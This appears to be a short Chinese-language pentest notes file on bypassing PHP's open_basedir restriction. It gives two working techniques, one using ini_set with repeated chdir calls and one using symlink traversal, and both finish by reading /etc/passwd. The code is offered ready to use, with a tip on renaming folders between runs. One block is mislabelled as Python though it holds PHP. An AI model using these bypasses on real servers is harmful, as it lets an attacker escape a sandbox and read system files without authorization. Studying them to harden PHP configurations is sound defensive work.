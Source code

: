 # 绕过open_basedir

## 利用ini_set和chidr

### 参考

- twitter
- https://xz.aliyun.com/t/4720

### 测试

```python
<?php
chdir('subDir');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
$a=file_get_contents('/etc/passwd');
var_dump($a);
```

## 利用symlink

### 参考

- twitter

### 测试

```php
mkdir('/var/www/html/a/b/c/d/e/f/g/',0777,TRUE);
symlink('/var/www/html/a/b/c/d/e/f/g','foo');
ini_set('open_basedir','/var/www/html:bar/');
symlink('foo/../../../../../../','bar');
unlink('foo');
symlink('/var/www/html','foo');
echo file_get_contents('bar/etc/passwd');
```

每次要更换文件夹a和bar和foo，不然会报错文件已存在。

